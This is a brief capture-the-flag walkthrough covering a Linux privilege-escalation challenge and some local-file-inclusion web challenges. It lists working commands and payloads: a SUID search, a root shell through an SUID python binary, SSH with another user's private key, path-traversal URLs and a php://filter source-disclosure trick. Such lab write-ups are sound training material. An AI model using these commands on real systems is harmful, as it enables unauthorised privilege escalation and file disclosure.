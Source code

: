 # Linux Fundamentals / Privesc challenge

### Flag 1
- ssh in
- `ls`

### Flag 2
- `cd look-in-here`
- `cat flag2.txt`

### Flag 3
- `ls -la`
- `cd also/in/here` 
- `cat .flag3` 

### Flag 4
- `find . -name "flag4.txt" -print 2>/dev/null`
- `cat ./var/backups/.my/secret/backup/folder/is/here/flag4.txt`

### Flag 5
- `sudo -l`
- `sudo -u flag5 /bin/bash`
- `cd home -> flag5 -> cat flag5.txt`

### Flag 6
- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
- `(find / -type f -a ( -perm -u+s -o -perm -g+s ) -exec ls -l {} ; 2> /dev/null)`
- `cd /opt/bins`
- `./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`                                                                                                 
- `cd /home -> /flag6 -> cat flag6.txt`                                                                                                                      

### Flag 7                                                                                                                                                         
- `ls -la`                                                                                                                                                   
- `cd .ssh`                                                                                                                                                  
- `ssh -i /home/flag6/.ssh/id_flag7 flag7@127.0.0.1`                                                                                                         


# LOFI challenges
https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers

### Flag 1
- http://10.128.238.88/?page=/var/www/html/../../../flag.txt

### Flag 2
- http://10.128.238.88/?page=php://filter/convert.base64-encode/resource=flag.php



